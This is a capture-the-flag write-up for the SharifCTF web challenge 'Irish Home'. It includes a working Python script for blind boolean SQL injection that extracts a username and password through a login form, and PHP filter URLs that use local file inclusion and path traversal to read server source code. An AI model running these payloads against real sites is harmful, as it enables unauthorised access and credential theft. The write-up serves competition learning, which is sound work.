

## Irish Home (web, 200 points, 56 solves)



`http://ctf.sharif.edu:8082/login.php` is vulnerable to a sql injection

`a" or '1'='1';#` returns `SQL injection detected`

So the website returns error if we got more than 0 rows in response, we are able to get the username and password bit by bit using a script:


``` python
import sys
import requests

url = "http://ctf.sharif.edu:8082/login.php"


def query(payload):
	data = {
		"username":payload,
		"password":"lololo"
	}
	r = requests.post(url=url, data=data)

	if(r.text.find("SQL") == -1):
		return 0
	else:
		return 1

def queryLetter(payload):

	b = ""
	for i in range(8):
		b += str(query(payload.format(str(i))))
	print(b[::-1])
	return (int(b[::-1], 2))


def boo(querry):
	print(queryLetter("admin\" or (1=(ASCII(SUBSTR("+querry+"," + str(i) + ", 1)) >> {} & 1));#"))

#print(queryLetter("admin\" union select null,null,null,null from information_schema.`COLUMNS` where table_name = 'users' and 1=((char_length(COLUMN_NAME)) >> {} & 1);#"))

for i in range(1, 100):
	#user
	print(queryLetter("admin\" or (1=(ASCII(SUBSTR(username,"+str(i)+", 1)) >> {} & 1));#"))
	#pass
	#print(queryLetter("admin\" or (1=(ASCII(SUBSTR(password,"+str(i)+", 1)) >> {} & 1));#"))
```

Gives us:

```
Cuchulainn
2a7da9c@088ba43a_9c1b4Xbyd231eb9
```

Another vuln is in the `http://ctf.sharif.edu:8082/pages/show.php` script, a path traversal and a lfi


We can use php filters to read any files:

http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/read=convert.base64-encode/resource=../delete

gives us:

``` php
<?php
require_once('header.php');

/*
if(isset($_GET['page'])) {
	$fname = $_GET['page'] . ".php";
	$fpath = "pages/$fname";
	if(file_exists($fpath)) {
		rename($fpath, "deleted_3d5d9c1910e7c7/$fname");
	}
}
*/

?>
<div style="text-align: center;">
<h3 style="color: red;">Site is under maintenance 'til de end av dis f$#!*^% SharifCTF.</h3><br/>
<h4><b>Al' destructive acshuns are disabled!</b></h4>
</div>
<?php
require_once('footer.php');
?>
```

And http://ctf.sharif.edu:8082/pages/show.php?page=php://filter/read=convert.base64-encode/resource=../deleted_3d5d9c1910e7c7/flag finally gives us the script that allows us to get the flag:


`SharifCTF{65892135758717f9d9dfd7063d2c2281}`

